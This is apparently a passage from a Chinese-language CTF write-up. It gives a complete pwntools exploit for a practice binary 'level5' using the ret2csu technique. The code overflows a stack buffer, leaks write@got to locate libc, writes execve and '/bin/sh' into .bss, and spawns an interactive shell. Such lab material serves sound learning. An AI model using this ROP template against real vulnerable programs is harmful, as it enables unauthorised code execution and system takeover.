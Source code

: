 - 后续分析中，将这个 `vulnerable_function` 简写为 **vul**

# Exploit

> test on kali 20.04, Python 3.9.2, pwntools 4.5.1

```python
from pwn import *
from LibcSearcher import LibcSearcher

context.log_level = 'debug'
level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()  # bbs段的起始地址
csu_front_addr = 0x0000000000400600  # csu .text:400600  mov rdx, r13
csu_pop2retn_addr = 0x000000000040061A  # pop rbx; pop rbp; pop r12;...


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15 # 40061A to 400624 # 然后会跳转到 400600 执行 到 400624
    # 40061A to 400624 to 400600 to 400624:
    # 1st para: edi = r15; 2nd para: rsi = r14; 3rd para: rdx = r13
    # call r12 (when rbx == 0)    # 具体分析过程见readme post analysis
    payload = b'a' * 0x80 + b'b' * 8  # 这个 b'b' * 8 覆盖在rbp处 用于gdb调试
    payload += p64(csu_pop2retn_addr)  # 这里覆盖的是 vulnerable_function 的返回地址
    payload += p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += b'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
gdb.attach(sh, "b *0x40057F\nb *0x400586\n")  # 0x40057F call _read;  0x400586 retn in vul
# ===== 1st csu: write@got(1, write_got@got, 8)
# 向 stdout 写入 write@got 指向的内存地址上的8字节，即输出 write 的实际地址
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))  # write 的实际地址

libc = LibcSearcher('write', write_addr)  # 假定libc未知 但做题时一般在远程服务器运行 会给出libc
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')

log.success('execve_addr ' + hex(execve_addr))

sh.recvuntil('Hello, World\n')
# ===== 2nd csu: read@got(0, bss_base, 16)  从stdin中输入16个字符，写入到bss_base中
# 然后输入 execve_addr, /bin/sh\x00
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + b'/bin/sh\x00')  # 发送了 8 + 8 = 16 个字符

sh.recvuntil('Hello, World\n')
# ===== 3rd csu: execve(bss_base+8)  i.e. execve("/bin/sh\0")
csu(0, 1, bss_base, 0, 0, bss_base + 8, 0)  # bss_base: execve; bss_base + 8: '/bin/sh\0'
sh.interactive()

```
